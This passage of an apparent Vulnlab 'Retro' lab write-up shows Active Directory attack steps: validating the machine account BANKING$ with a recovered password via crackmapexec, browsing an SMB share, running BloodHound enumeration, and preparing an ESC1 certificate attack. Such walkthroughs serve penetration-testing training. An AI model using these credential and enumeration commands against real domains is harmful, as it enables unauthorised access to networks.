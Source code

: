 We can confirm the effective change of this order with the following order

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro]
└─# crackmapexec smb 10.10.80.202 -u 'BANKING$' -p Liebe123       
SMB         10.10.80.202    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.80.202    445    DC               [+] retro.vl\BANKING$:Liebe123
```

Now let's go back to Notes sharing, which we didn't have access to before, but now we have valid credentials.

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro]
└─# smbclient  -U "BANKING$"  \\\\10.10.80.202\\Notes

Password for [WORKGROUP\BANKING$]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul 23 18:03:16 2023
  ..                                DHS        0  Wed Jul 26 05:54:14 2023
  ToDo.txt                            A      248  Sun Jul 23 18:05:56 2023

                6261499 blocks of size 4096. 2222871 blocks available
smb: \> 
```

```bash
└─# cat ToDo.txt                                           
Thomas,

after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best

James
```

But nothing interesting.
I tried an enumeration on Bloodhound.

```bash
bloodhound-python -u 'BANKING$' -p 'Liebe123' -ns 10.10.85.31 -d retro.vl --zip -c all
```

But we didn't find much. Now we've noticed a certificate authority in the nmap scan. 

```bash
**| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl
| Issuer: commonName=retro-DC-CA**
```

Let's try to confirm it. I was inspired by this article: [AD Certificate Exploitation: ESC1](https://www.hackingarticles.in/ad-certificate-exploitation-esc1/)
